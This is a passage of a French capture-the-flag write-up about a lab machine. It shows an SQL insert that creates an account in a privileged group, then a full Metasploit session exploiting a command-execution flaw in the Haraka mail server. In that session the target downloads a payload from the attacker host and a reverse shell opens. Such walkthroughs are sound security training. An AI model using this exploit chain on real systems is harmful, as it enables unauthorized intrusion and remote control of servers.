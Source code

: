 
C'est bien mais ça ne nous donne pas de shell...  

L'utilisatrice a un dossier *haraka* qui nécessite les droits du groupe *mailadm* (gid 1003) pour y accéder. [Haraka](https://github.com/baudehlo/Haraka) est un serveur mail mail basé sur *Node*. Il est surtout vulnérable et une faille permet l'exécution de commande : [il y a un module Metasploit pour ça](https://github.com/rapid7/metasploit-framework/pull/7873/files).  

En revanche il faut pouvoir accéder à la configuration du Haraka pour réaliser l'exécution de commande, ce qui sera notre cas si on obtient le bon gid ;-)   

```plain
insert into passwd_table (username, passwd, gid, homedir) values ('devloop2', '$1$xyz$b0R51BwJVtqELmbicAObd.', 1003, '/home
```

Une fois la configuration de *Haraka* vérifiée via notre nouveau compte SSH on peut utiliser le module Metasploit :  

```plain
msf exploit(linux/smtp/haraka) > show options

Module options (exploit/linux/smtp/haraka):

   Name        Current Setting        Required  Description
   ----        ---------------        --------  -----------
   SRVHOST     10.10.12.13            yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT     8080                   yes       The local port to listen on.
   SSL         false                  no        Negotiate SSL for incoming connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no        The URI to use for this exploit (default is random)
   email_from  devloop@redcross.htb   yes       Address to send from
   email_to    penelope@redcross.htb  yes       Email to send to, must be accepted by the server
   rhost       10.10.10.113           yes       Target server
   rport       1025                   yes       Target server port

Payload options (linux/x64/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.12.13      yes       The listen address (an interface may be specified)
   LPORT  9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   linux x64

msf exploit(linux/smtp/haraka) > exploit

[*] Started reverse TCP handler on 10.10.12.13:9999
[*] Exploiting...
[*] Using URL: http://10.10.12.13:8080/v57N0ltNF62k
[*] Sending mail to target server...
[*] Client 10.10.10.113 (Wget/1.18 (linux-gnu)) requested /v57N0ltNF62k
[*] Sending payload to 10.10.10.113 (Wget/1.18 (linux-gnu))
[*] Sending stage (38 bytes) to 10.10.10.113
[*] Command shell session 2 opened (10.10.12.13:9999 -> 10.10.10.113:59428) at 2019-01-19 16:11:49 +0100
id
[+] Triggered bug in target server (plugin timeout)
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

```